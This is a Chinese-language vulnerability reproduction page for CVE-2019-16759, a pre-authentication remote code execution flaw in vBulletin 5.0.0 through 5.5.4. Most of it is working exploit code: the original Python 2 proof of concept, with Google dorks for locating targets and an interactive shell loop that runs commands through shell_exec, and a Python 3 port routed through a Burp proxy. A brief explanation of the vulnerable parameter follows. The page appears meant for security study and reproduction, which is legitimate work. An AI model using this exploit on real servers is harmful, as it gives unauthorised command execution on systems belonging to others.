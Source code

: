 （CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit
=========================================================

一、漏洞简介
------------

二、漏洞影响
------------

影响版本：vBulletin 5.0.0\~5.5.4

三、复现过程
------------

    poc如下:

    #!/usr/bin/python

    #

    # vBulletin 5.x 0day pre-auth RCE exploit

    #

    # This should work on all versions from 5.0.0 till 5.5.4

    #

    # Google Dorks:

    # - site:*.vbulletin.net

    # - "Powered by vBulletin Version 5.5.4"

    import requests

    import sys

    if len(sys.argv) != 2:

       sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

    params = {"routestring":"ajax/render/widget_php"}

    while True:

        try:

             cmd = raw_input("vBulletin$ ")

             params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"

             r = requests.post(url = sys.argv[1], data = params)

             if r.status_code == 200:

                  print r.text

             else:

                  sys.exit("Exploit failed! :(")

        except KeyboardInterrupt:

             sys.exit(" Closing shell...")

        except Exception, e:

             sys.exit(str(e))

将poc代码修改为python3使用的代码，并添加代理使用burpsuite抓包。修改的poc代码如下：

    # -*-coding:utf-8 -*-

    import requests
    import sys

    if len(sys.argv) != 2:
        sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

    proxies ={
         "http":"http://127.0.0.1:8080/"
    }
    params = {"routestring":"ajax/render/widget_php"}

    while True:
         try:
              cmd = input(">>>Shell= ")
              params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"
              r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
              if r.status_code == 200:
                   print(r.text)

              else:
                   sys.exit("Exploit failed! :(")
         except KeyboardInterrupt:
              sys.exit("\nClosing shell...")
         except Exception as e:
              sys.exit(str(e))

远程代码执行漏洞的触发点是未经过验证的用户通过向index.php发送routestring参数，当routesting参数是ajax/render/widget\_php，通过widgetConfig\[code\]执行远程代码，格式为echo
shell\_exec(\'\"+cmd+\"\'); exit;

image
